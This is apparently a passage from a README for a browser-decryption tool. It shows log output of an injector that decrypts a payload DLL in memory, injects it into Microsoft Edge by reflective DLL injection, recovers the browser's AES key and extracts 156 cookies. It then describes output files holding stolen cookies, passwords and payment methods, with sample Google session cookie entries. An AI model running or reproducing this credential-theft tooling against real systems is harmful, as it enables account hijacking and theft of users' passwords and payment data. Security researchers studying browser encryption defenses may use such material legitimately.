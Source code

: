 ```bash
[#] Successfully loaded embedded resource 'PAYLOAD_DLL'. Size: 1364992 bytes.
[#] Decrypting payload in-memory with ChaCha20...
[#] Payload decrypted.
[#] RDI: ReflectiveLoader file offset: 0x138d0
[#] RDI: Memory allocated in target at 0x28a070f0000
[#] RDI: Calculated remote ReflectiveLoader address: 0x28a071038d0
[#] RDI: Waiting for remote ReflectiveLoader thread...
[+] DLL injected via Reflective DLL Injection (RDI with Syscalls)
[#] Waiting for DLL to connect to named pipe...
[#] DLL connected to named pipe.
[#] Sent message to pipe: VERBOSE_TRUE
[#] Sent message to pipe: C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output
[*] Waiting for DLL (Pipe: \\.\pipe\ChromeDecryptIPC_1a7002a9-b8fd-4788-8e21-1a3c95f8cf41)

[*] Decryption process started for Edge
[+] COM library initialized (APARTMENTTHREADED).
[+] Reading Local State file: C:\Users\ah\AppData\Local\Microsoft\Edge\User Data\Local State
[+] Decrypted AES Key: b0334fad7f5805362cb4c44b144a95ab7a68f7346ef99eb3f175f09db08c8fd9
[*] Processing profile: Default
     [*] 156 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Edge\Default\cookies.txt
[*] Decryption process finished.
[#] DLL completion signal received.

[+] DLL signaled completion or pipe interaction ended.
[#] Browser was already running; injector will not terminate it.
[#] Injector finished.
[#] Freed remote pipe name memory.
```

## 📂 Data Extraction

Once decryption completes, data is saved to the specified output path (defaulting to `.\output\` if not specified via `--output-path`). Files are organized as follows:

**Base Path:** `YOUR_CHOSEN_PATH` (e.g., `.\output\` or the path you provide)
**Structure:** <Base Path>/<BrowserName>/<ProfileName>/<data_type>.txt

Example paths (assuming default output location):**

- 🍪 **Cookies (Chrome Default profile):** .\output\Chrome\Default\cookies.txt
- 🔑 **Passwords (Edge Profile 1):** .\output\Edge\Profile 1\passwords.txt
- 💳 **Payment Methods (Brave Default profile):** .\output\Brave\Default\payments.txt

### 🍪 Cookie Extraction

Each cookie file is a JSON array of objects:

```json
[
  {
    "host": "accounts.google.com",
    "name": "ACCOUNT_CHOOSER",
    "value": "AFx_qI781-…"
  },
  {
    "host": "mail.google.com",
    "name": "OSID",
    "value": "g.a000uwj5ufIS…"
  },
  …
]
```
